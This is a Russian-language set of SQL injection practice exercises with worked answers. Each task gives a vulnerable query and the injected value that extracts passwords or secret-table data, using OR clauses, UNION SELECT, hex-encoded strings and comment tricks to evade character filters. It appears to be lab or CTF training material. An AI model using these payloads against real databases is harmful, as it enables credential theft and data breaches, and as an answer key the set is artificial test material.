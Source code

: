 ## SQL Injections

- **1. Таблица:** users  
   **Поля:** id, login, pass  
   **Задача:** пароль пользователя с id=12:  
   ```SELECT * FROM users WHERE id=12 ```



- **2. Таблица:** users  
  **Поля:** id, login, pass  
  **Запрос:** SELECT * FROM users WHERE id=2 OR login='$text' (вместо $text подставляется введённое ниже значение)  
  **Задача:** пароль пользователя с id=9  
  ```$text = ' OR id=9-- '```


- **3. Таблица:** users  
  **Поля:** id, login, pass  
  **Запрос:** SELECT * FROM users WHERE id=2 OR login='$text' LIMIT 1  
  **Задача:** пароль пользователя с id=13  
  ```$text = ' OR id=13-- '```  


- **4. Таблицы:** users, secret  
  **Поля** таблицы users: id, login, pass  
  В таблице secret три поля  
  **Запрос:** SELECT * FROM users WHERE id=2 OR login='$text' LIMIT 1  
  **Задача:** данные из таблицы secret с полем ggg='abc'  
  ```$text = ' UNION SELECT * FROM secret WHERE ggg='abc'-- '```


- **5. Таблицы:** users, secret  
  **Поля** таблицы users: id, login, pass  
  В таблице secret два поля  
  **Запрос:** SELECT * FROM users WHERE id=2 OR login='$text' LIMIT 1  
  **Задача:** данные из таблицы secret  
  ```$text = ' UNION SELECT *,1 FROM secret-- '```  


- **6. Таблицы:** users  
  **Поля:** id, login, pass  
  **Запрос:** SELECT * FROM users WHERE id=$text LIMIT 1  
  **Подсказка:** база пользователей стала дли-и-и-инная  
  Теперь всегда выводится только первая строка ответа (вне зависимости от того, сколько вернул SQL-запрос)  
  Фильтруются кавычки (' и ")  
  **Задача:** пароль пользователя с логином god  
  ```$text = 10000 OR login = 0x676f64```
  
- **7. Таблицы:** users  
  **Поля:** id, login, pass  
  **Запрос:** SELECT * FROM users WHERE id=$text LIMIT 1  
  Теперь всегда выводится только первая строка ответа (вне зависимости от того, сколько вернул SQL-запрос)   
  Фильтруются символы ', ", +, =, запятая, пробел, скобки  
  **Задача:** пароль пользователя с логином, содержащим подстроку gentoo  
  ```$text = 10000/**/or/**/login/**/like/**/0x2567656e746f6f25```  

- **8. Таблицы:** users  
  **Поля:** id, login, pass  
  **Запрос:** SELECT * FROM users WHERE id=$text  
  Выводит только количество записей  
  **Задача:** пароль пользователя с логином fast
  
